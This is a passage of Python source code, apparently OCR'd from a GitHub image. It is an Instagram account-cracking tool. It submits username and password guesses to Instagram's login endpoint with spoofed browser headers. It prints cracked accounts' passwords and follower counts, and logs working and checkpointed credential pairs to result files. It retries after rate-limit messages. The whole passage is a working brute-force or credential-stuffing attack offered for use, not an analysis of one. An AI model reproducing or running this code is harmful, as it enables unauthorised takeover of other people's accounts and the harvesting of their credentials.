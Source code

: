 					'X-IG-App-ID': '936619743392459',
					'X-ASBD-ID': '437806',
					'X-IG-WWW-Claim': '0',
					'Content-Type': 'application/x-www-form-urlencoded',
					'X-Requested-With': 'XMLHttpRequest',
					'Content-Length': '347',
					'Origin': 'https://www.instagram.com',
					'Connection': 'keep-alive',
					'Referer': 'https://www.instagram.com/accounts/login/'
				}

				param={
                                        "username": user,
					"enc_password": "#PWD_INSTAGRAM_BROWSER:0:{}:{}".format(random.randint(1000000000, 99999999999),pw),
					"optIntoOneTap": False,
					"queryParams": {},
					"stopDeletionNonce": "",
					"trustedDeviceRecords": {}}

				x=s.post("https://www.instagram.com/accounts/login/ajax/",headers=headers,data=param)
				x_jason=json.loads(x.text)
				if "userId" in str(x_jason):
					nama,pengikut,mengikut,postingan=self.APIinfo(user)
					print(f"""\r {H}[>]{C} {H}STATUS : {H}HUSSAIN LIVE
  {H}[>]{C} {H}NAMA: {H}{nama}{C}
  {H}[>]{C} {H}Username: {H}{user}{C}
  {H}[>]{C} {H}Password: {H}{pw}{C}
  {H}[>]{C} {H}Pengikut: {H}{pengikut}{C}
  {H}[>]{C} {H}Mengikuti: {H}{mengikut}{C}
  {H}[>]{C} {H}Postingan: {H}{postingan}{C}
					""")
					open(f"result/success-{day}.txt","a").write(f'{user}|{pw}|{pengikut}|{mengikut}\n')
					success.append(user)
					break

				elif 'checkpoint_url' in str(x_jason):
					nama,pengikut,mengikut,postingan=self.APIinfo(user)
					print(f"""\r  
  {M}[>]{C} STATUS :  CHEKCPOINT
  {M}[>]{C} Nama: {M}{nama}{C}
  {M}[>]{C} Username: {M}{user}{C}
  {M}[>]{C} Password: {M}{pw}{C}
  {M}[>]{C} Pengikut: {M}{pengikut}{C}
  {M}[>]{C} Mengikuti: {M}{mengikut}{C}
  {M}[>]{C} Postingan: {M}{postingan}{C}
					""")
					open(f"result/checkpoint-{day}.txt","a").write(f'{user}|{pw}|{pengikut}|{mengikut}\n')
					checkpoint.append(user)
					break

				elif 'Harap tunggu beberapa menit sebelum mencoba lagi.' in str(x.text):
					sys.stdout.write(f"\r [{U}!{C}] {U}Please wait a few minutes second{C}");sys.stdout.flush();sleep(10)
					self.crackAPI(user,pas,uaAPI)
				else:
					continue
